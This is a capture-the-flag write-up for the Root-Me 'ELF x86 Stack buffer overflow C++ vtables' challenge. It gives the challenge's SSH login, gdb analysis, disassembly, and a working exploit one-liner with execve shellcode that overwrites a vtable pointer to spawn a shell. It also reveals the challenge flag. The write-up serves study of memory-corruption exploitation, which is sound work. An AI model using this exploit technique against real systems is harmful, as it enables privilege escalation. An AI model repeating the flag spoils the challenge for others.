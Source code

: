# ELF x86 - Stack buffer overflow - C++ vtables
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-C-vtables
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         Yes 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge20.root-me.org
Protocol	SSH
Port	        2224
SSH access 	ssh -p 2224 app-systeme-ch20@challenge02.root-me.org    
Username	app-systeme-ch20
Password	app-systeme-ch20
```

The vulnerable code is at the function _GetInput_ in _MyStringFormatter_ class:
```c++
#define SIZE (80)
[...snip...]
void GetInput(int padding )  {
  memset(str ,' ' , SIZE  ); 
  fgets(str+padding,SIZE,stdin); 
}
```
The padding can be 1-5 and the user can write up to 80 bytes. The buffer is 80 bytes long, so it's possible to overwrite up to 5 bytes after the buffer ends.<br>
Let's try to do so, and check what did we changed:
```gdb
(gdb) run < <(python -c "print '5\n1\n' + 'A'*75 + 'DDDD'")
Starting program: /challenge/app-systeme/ch20/ch20 < <(python -c "print '5\n1\n' + 'A'*75 + 'DDDD'")
Padding : 1-5


	Convert in : 
	  1: uppercase  
	  2: lowercase  
String to convert: 

Program received signal SIGSEGV, Segmentation fault.
0x08048a0e in MyStringFormatter::display() const ()
```
In fact, the _DDDD_ overwrites the MyStringFormatter object's vtable entry of the _MyStringFormatter::display()_ function. 
So because the SSP is on (so we cannot overwrite the _eip_), and because the _MyStringFormatter::display()_ function is called at the end of the program, we can overwrite its vtable entry and control the _eip_.<br><br>

Here is the _MyStringFormatter::display()_ call:
```c++
   0x08048a02 <+0>:	push   %ebp
   0x08048a03 <+1>:	mov    %esp,%ebp
   0x08048a05 <+3>:	sub    $0x18,%esp
   0x08048a08 <+6>:	mov    0x8(%ebp),%eax
   0x08048a0b <+9>:	mov    0x50(%eax),%eax
   0x08048a0e <+12>:	mov    (%eax),%eax
   0x08048a10 <+14>:	add    $0x8,%eax
   0x08048a13 <+17>:	mov    (%eax),%ecx
   0x08048a15 <+19>:	mov    0x8(%ebp),%edx
   0x08048a18 <+22>:	mov    0x8(%ebp),%eax
   0x08048a1b <+25>:	mov    0x50(%eax),%eax
   0x08048a1e <+28>:	mov    %edx,0x4(%esp)
   0x08048a22 <+32>:	mov    %eax,(%esp)
   0x08048a25 <+35>:	call   *%ecx
   0x08048a27 <+37>:	leave  
   0x08048a28 <+38>:	ret 
```
To sum up:
1. The object (this or self) is moved to _eax_.
2. The vtable of the object is found (at offset 0x50) and is moved to _eax_.
3. The object's _display_ function is found (at instruction +14).
4. The function address is moved to _ecx_ and at the end of the function, there is a call to the address stored in _ecx_ (instruction +35).

<br>
The ASLR and NX are unset. So, it's possible to use the regular shellcode in the stack concept.<br>

1. We'll first jump to the start of the buffer which we can control (0xbffffb45).
2. Then at the start of the buffer we'll put an address to a fake vtable (which will contain an address of a point in the buffer).
3. The fake vtable will contain 1 address to our shellcode.

So it will look like the following diagram:
```
                                  +-----------------+  
        0xbffffb45                |   0xbffffb41    |  
                                  +-----------------+  
        0xbffffb49                |   0xbffffb4d    |  
                                  +-----------------+  
                                  |                 |  
        0xbffffb4d                |    SHELLCODE    |  
                                  |                 |  
                                  +-----------------+  
                                  |       JUNK      |  
                                  +-----------------+  
                                  |   0xbffffb45    |  
                                  +-----------------+
```

Let's try it out:
```sh
app-systeme-ch20@challenge02:~$ cat <(python -c "print '5\n1\n' + '\x41\xfb\xff\xbf' + '\x4d\xfb\xff\xbf' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'A'*39 + '\x45\xfb\xff\xbf'") - | ./ch20 
Padding : 1-5


	Convert in : 
	  1: uppercase  
	  2: lowercase  
String to convert: 
id
uid=1120(app-systeme-ch20) gid=1120(app-systeme-ch20) euid=1220(app-systeme-ch20-cracked) groups=1220(app-systeme-ch20-cracked),100(users),1120(app-systeme-ch20)
cat .passwd
!!FunW1ThVT4bleS!?
```
